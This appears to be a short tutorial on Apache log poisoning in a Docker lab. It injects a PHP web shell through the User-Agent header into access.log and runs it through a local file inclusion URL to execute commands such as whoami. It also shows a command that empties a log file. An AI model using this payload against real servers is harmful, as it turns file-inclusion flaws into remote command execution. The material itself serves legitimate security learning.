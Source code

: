 ```bash
# Download the latest ubuntu image
docker pull ubuntu:latest

# Run the container applying portforwarding for Apache and SSH
docker run -dit -p 80:80 -p 22:22 --name logPoisoning ubuntu

# Enter the container with a bash shell
docker exec -it logPoisoning bash

# Install some tools
apt-update
apt install apache2 ssh nano php -y

# Run the services
service apache2 start
service ssh start
```

All program logs are stored in the */var/log* directory. If you run the command *id* and you are in the group *adm* you will have permission to view the logs.

----
> If we want to fix a corrupted log, we must delete the corrupted lines of the log or clean it completely with the command *echo -n '' > {LOG_FILE}*.
----

#### Apache

In the case of Apache, to be able to see the logs we are going to put as owner *www-data* of the *apache2* directory:

```bash
chown www-data:www-data -R apache2/
```

If the *system* function is enabled we can take advantage of the user-agent of the header to inject commands in the *access.log*, where normally the user-agents of the incoming requests are stored.

To find out if the system function is enabled we can use the *phpinfo()* function:

```bash
curl -s -X GET "http://localhost/testing" -H "User-Agent: <?php phpinfo(); ?>"
```

In there, we can see the *disable_functions* and if the function we want to check is not in there, it means that it is enabled.

In case the *system* function is enabled we can start to execute commands:

```bash
# We must escape the $ characters
curl -s -X GET "http://localhost/testing" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"

http://localhost/index.php?filename=/var/log/apache2/access.log&cmd=whoami
```
